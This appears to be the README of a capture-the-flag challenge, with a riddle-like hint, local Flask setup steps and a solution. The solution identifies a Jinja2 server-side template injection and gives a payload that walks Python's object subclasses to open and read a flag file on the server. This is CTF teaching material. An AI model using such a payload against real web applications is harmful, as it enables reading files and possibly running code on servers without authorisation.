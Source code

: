 # Overheard

## Problem Description (Shared)

Hi!

9/10 doctors recommend using Dettol since it kills 99.99% of the bacteria.
I personally prefer using a sanitizer since no water is needed.

\<link to the question was provided here \>

## Setup

After setting up a postgres database just start the server by                               
```sh
$ FLASK_APP=server.py python2.7 -m flask run --port <port>
```

Now, go to *http://localhost:<port>*

## Solution

This is a template injection problem.
You can read about it online, one good link is [this](https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/).

The solution for the problem is -> **{{ {{ ''.__class__.__mro__[2].__subclasses__()[40]('./flag').read()  }} }}**.
Write the above in the text box.
